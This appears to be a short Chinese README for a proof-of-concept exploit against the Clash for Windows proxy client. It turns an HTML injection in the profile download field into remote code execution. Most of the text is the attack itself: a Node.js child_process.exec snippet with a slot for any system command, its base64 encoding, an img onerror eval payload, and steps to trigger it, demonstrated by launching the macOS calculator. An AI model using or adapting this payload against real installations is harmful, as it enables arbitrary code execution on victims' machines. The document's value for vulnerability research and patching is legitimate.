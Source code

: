 # clash_rce_mac


## 0x01 工具介绍

````
一个 Go 语言开发的多平台代理客户端
````

项目地址：

https://github.com/Fndroid/clash_for_windows_pkg/releases



## 0x02 漏洞复现

exp：

````
require('child_process').exec('需要执行的系统命令',(error, stdout, stderr)=>{     alert(`stdout: ${stdout}`); });
````

将以上代码base64编码：

````
cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJwCBZ0yE+9995CcsKGVycm9yLCBzdGRvdXQsIHN0ZGVycik9PnsgICAgIGFsZXJ0KGBzdGRvdXQ6ICR7c3Rkb3V0fWApOyB9KTs=
````

最终的payload：

````
<img src=x onerror='eval(new Buffer(`你的base64payload`,`base64`).toString())'>
````



在Profiles菜单栏的输入框输入，点击Download

![image-20220228103847114](image-20220228103917531.png)



成功弹出计算机。

mac 弹计算机命令

````
open -a Calculator
````



![image-20220228104000594](image-20220228104000594.png)



